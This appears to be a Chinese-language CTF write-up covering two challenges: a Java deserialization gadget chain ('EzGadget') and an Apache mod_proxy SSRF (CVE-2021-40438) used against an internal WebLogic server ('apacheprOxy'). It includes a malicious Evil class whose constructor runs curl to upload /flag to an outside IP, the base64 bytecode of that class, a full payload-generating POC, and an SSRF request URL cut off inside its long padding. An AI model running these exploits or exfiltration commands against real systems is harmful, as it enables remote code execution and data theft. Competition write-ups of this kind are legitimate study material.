



# EzGadget

给了源码，IDEA打开看看，有个反序列化的点：

```java
    @ResponseBody
    @RequestMapping({"/readobject"})
    public String unser(@RequestParam(name = "data",required = true) String data, Model model) throws Exception {
        byte[] b = Tools.base64Decode(data);
        InputStream inputStream = new ByteArrayInputStream(b);
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        String name = objectInputStream.readUTF();
        int year = objectInputStream.readInt();
        if (name.equals("gadgets") && year == 2021) {
            objectInputStream.readObject();
        }

        return "welcome bro.";
    }
```

`ToStringBean`这里：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package com.ezgame.ctf.tools;

import java.io.Serializable;

public class ToStringBean extends ClassLoader implements Serializable {
    private byte[] ClassByte;

    public ToStringBean() {
    }

    public String toString() {
        ToStringBean toStringBean = new ToStringBean();
        Class clazz = toStringBean.defineClass((String)null, this.ClassByte, 0, this.ClassByte.length);
        Object var3 = null;

        try {
            var3 = clazz.newInstance();
        } catch (InstantiationException var5) {
            var5.printStackTrace();
        } catch (IllegalAccessException var6) {
            var6.printStackTrace();
        }

        return "enjoy it.";
    }
}
```

`toString()`这里调用了`defineClass`能动态加载字节码，但是得想办法调用这个`toString`。

想到CC5的利用中的`BadAttributeValueExpException`反序列的时候利用到了`toString`，所以构造一波即可。


恶意类，我这里把flag外带出来：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Evil extends AbstractTranslet
{
            @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
    public Evil() {
        try {
        String[] command = { "/bin/sh", "-c", "curl http://121.5.169.223:39767/ -F file=@/flag" };
            Runtime.getRuntime().exec(command);
            //Runtime.getRuntime().exec("sh /tmp/feng");
        }
        catch (Exception ex) {
            ex.printStackTrace();
        }
    }

    public static void main(final String[] array) {
    }
}

```

```shell
root@VM-0-6-ubuntu:~/java/evil# cat Evil.class|base64
yv66vgAAADQALwoACwAcBwAdCAAeCAAfCAAgCgAhACIKACEAIwcAJAoACAAlBwAmBwAnAQAJdHJh
bnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tM
Y29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25I
YW5kbGVyOylWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHACgBAKYoTGNv
bS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2Fw
YWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hl
L3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAGPGluaXQ+
AQADKClWAQANU3RhY2tNYXBUYWJsZQcAJgcAJAEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5n
OylWAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwAEwAUAQAQamF2YS9sYW5nL1N0cmluZwEABy9i
aW4vc2gBAAItYwEAL2N1cmwgaHR0cDovLzEyMS41LjE2OS4yMjM6Mzk3NjcvIC1GIGZpbGU9QC9m
bGFnBwApDAAqACsMACwALQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAC4AFAEABEV2aWwBAEBjb20v
c3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5z
bGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhj
ZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1
bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsB
AA9wcmludFN0YWNrVHJhY2UAIQAKAAsAAAAAAAQAAQAMAA0AAgAOAAAAGQAAAAMAAAABsQAAAAEA
DwAAAAYAAQAAAAwAEAAAAAQAAQARAAEADAASAAIADgAAABkAAAAEAAAAAbEAAAABAA8AAAAGAAEA
AAARABAAAAAEAAEAEQABABMAFAABAA4AAAB3AAQAAgAAACkqtwABBr0AAlkDEgNTWQQSBFNZBRIF
U0y4AAYrtgAHV6cACEwrtgAJsQABAAQAIAAjAAgAAgAPAAAAHgAHAAAAEgAEABQAGAAVACAAGgAj
ABgAJAAZACgAGwAVAAAAEAAC/wAjAAEHABYAAQcAFwQACQAYABkAAQAOAAAAGQAAAAEAAAABsQAA
AAEADwAAAAYAAQAAAB4AAQAaAAAAAgAb

```


然后构造一波POC：

```java

import com.ezgame.ctf.tools.ToStringBean;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;

public class Test {
    public static void main(String[] args) throws Exception{
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class clazz = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = clazz.getDeclaredField("val");
        field.setAccessible(true);
        ToStringBean toStringBean = new ToStringBean();
        field.set(badAttributeValueExpException,toStringBean);
        byte[] classByte = Base64.getDecoder().decode("yv66vgAAADQALwoACwAcBwAdCAAeCAAfCAAgCgAhACIKACEAIwcAJAoACAAlBwAmBwAnAQAJdHJh" +
                "bnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tM" +
                "Y29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25I" +
                "YW5kbGVyOylWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACkV4Y2VwdGlvbnMHACgBAKYoTGNv" +
                "bS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2Fw" +
                "YWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hl" +
                "L3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAGPGluaXQ+" +
                "AQADKClWAQANU3RhY2tNYXBUYWJsZQcAJgcAJAEABG1haW4BABYoW0xqYXZhL2xhbmcvU3RyaW5n" +
                "OylWAQAKU291cmNlRmlsZQEACUV2aWwuamF2YQwAEwAUAQAQamF2YS9sYW5nL1N0cmluZwEABy9i" +
                "aW4vc2gBAAItYwEAL2N1cmwgaHR0cDovLzEyMS41LjE2OS4yMjM6Mzk3NjcvIC1GIGZpbGU9QC9m" +
                "bGFnBwApDAAqACsMACwALQEAE2phdmEvbGFuZy9FeGNlcHRpb24MAC4AFAEABEV2aWwBAEBjb20v" +
                "c3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5z" +
                "bGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhj" +
                "ZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1" +
                "bnRpbWU7AQAEZXhlYwEAKChbTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsB" +
                "AA9wcmludFN0YWNrVHJhY2UAIQAKAAsAAAAAAAQAAQAMAA0AAgAOAAAAGQAAAAMAAAABsQAAAAEA" +
                "DwAAAAYAAQAAAAwAEAAAAAQAAQARAAEADAASAAIADgAAABkAAAAEAAAAAbEAAAABAA8AAAAGAAEA" +
                "AAARABAAAAAEAAEAEQABABMAFAABAA4AAAB3AAQAAgAAACkqtwABBr0AAlkDEgNTWQQSBFNZBRIF" +
                "U0y4AAYrtgAHV6cACEwrtgAJsQABAAQAIAAjAAgAAgAPAAAAHgAHAAAAEgAEABQAGAAVACAAGgAj" +
                "ABgAJAAZACgAGwAVAAAAEAAC/wAjAAEHABYAAQcAFwQACQAYABkAAQAOAAAAGQAAAAEAAAABsQAA" +
                "AAEADwAAAAYAAQAAAB4AAQAaAAAAAgAb");
        clazz = Class.forName("com.ezgame.ctf.tools.ToStringBean");
        field = clazz.getDeclaredField("ClassByte");
        field.setAccessible(true);
        field.set(toStringBean,classByte);
        
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream oout = new ObjectOutputStream(bout);
        oout.writeUTF("gadgets");
        oout.writeInt(2021);
        oout.writeObject(badAttributeValueExpException);
        byte[] bytes = bout.toByteArray();
        byte[] encode = Base64.getEncoder().encode(bytes);
        System.out.println(new String(encode));
    }

}

```

打：


得到flag：




# apacheprOxy

吃了个饭就打通了。

参考文章：https://www.leavesongs.com/PENETRATION/apache-mod-proxy-ssrf-cve-2021-40438.html

SSRF打内网的weblogic，就是这环境贼垃圾，死活打不通，多打几次就出了：

```http
http://47.104.181.226:7410/?unix:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA